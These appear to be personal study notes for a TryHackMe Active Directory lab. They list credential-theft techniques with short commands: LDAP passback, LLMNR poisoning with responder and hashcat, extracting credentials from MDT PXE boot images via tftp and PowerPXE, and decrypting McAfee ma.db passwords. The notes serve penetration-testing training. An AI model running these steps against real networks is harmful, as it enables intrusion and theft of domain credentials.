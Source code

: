 # Breaching AD (thm)

* Password praying
* LDAP passback&#x20;
  * Exemple : modify printer setting and specify our server (plain text setting)&#x20;
  * Set up netcat server or ldap server(if there is ldap connection handshake)
  * connect printer to our server&#x20;
  * and we got  plain text password with tcpdump

<figure><img src="https://tryhackme-images.s3.amazonaws.com/user-uploads/6093e17fa004d20049b6933e/room-content/d2f78ae2b44ef76453a80144dac86b4e.png" alt=""><figcaption></figcaption></figure>

* Authentication relay -> LLMNR Poisoning

<figure><img src="https://tryhackme-images.s3.amazonaws.com/user-uploads/6093e17fa004d20049b6933e/room-content/6baba3537d36d0fa78c6f61cf1386f6f.png" alt=""><figcaption></figcaption></figure>

```
sudo responder -I <interface>
hashcat -m 5600 <hash file> <password file> --force

```

* Microsoft Deployment Toolkit

<figure><img src="https://tryhackme-images.s3.amazonaws.com/user-uploads/6093e17fa004d20049b6933e/room-content/8117a18103e98ee2ccda91fc87c63606.png" alt=""><figcaption></figcaption></figure>

```
# Connect to windows machine
# Download .bcd file via tftp
tftp -i <THMMDT IP> GET "\Tmp\x64{39...28}.bcd" conf.bcd
# read bcd file with powerxpe
powershell -executionpolicy bypass
Import-Module .\PowerPXE.ps1
$BCDFile = "conf.bcd"
Get-WimFile -bcdFile $BCDFile

# After getting pxe image via powerpxe, download it 
tftp -i <THMMDT IP> GET "<PXE Boot Image Location>" pxeboot.wim
# Retrieve Creds
Get-FindCredentials -WimFile pxeboot.wim


```

* McAfee configuration file

```
# Retrieve the ma.db file from C:\ProgramData\McAfee\Agent\DB
scp thm@THMJMP1.za.tryhackme.com:C:/ProgramData/McAfee/Agent/DB/ma.db .
# read it with sqlite browser
sqlitebrowser ma.db
# After getting creds, crack password with mcafeesitelistpwddecryption
python2 mcafee_sitelist_pwd_decrypt.py <AUTH PASSWD VALUE>

```
